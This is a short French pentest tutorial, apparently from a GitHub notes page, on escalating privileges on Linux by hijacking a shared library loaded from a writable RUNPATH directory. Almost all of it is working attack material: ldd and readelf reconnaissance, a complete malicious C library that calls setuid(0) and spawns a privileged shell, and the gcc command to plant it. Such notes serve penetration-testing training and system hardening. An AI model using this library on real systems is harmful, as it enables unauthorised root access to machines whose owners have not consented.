 Un binaire peut parfois utiliser des librairies non standards, il est parfois possible de remplacer cette librairie par une autre qui nous accorderait des droits supplémentaires.

On analyse quelles librairies sont utilisées par l'exécutable:

```bash
ldd LeBinaire
```

```bash
linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```

On peut ensuite utiliser "readelf" afin de voir si ces librairies ne peuvent pas être loadées depuis un autre endroit:

```bash
readelf -d LeBinaire  | grep PATH

0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

Si le dossier est writeable, il est alors possible de remplacer cette librairie par une autre:

```bash
nano -w /development/libshared.c
```

```c
#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
}
```

```bash
gcc /development/libshared.c -fPIC -shared -o /development/libshared.so
```

Pendant l'exécution du programme "LeBinaire", notre librairie est appelée et lancera la commande définie avec les droits de l'utilisateur de "LeBinaire".

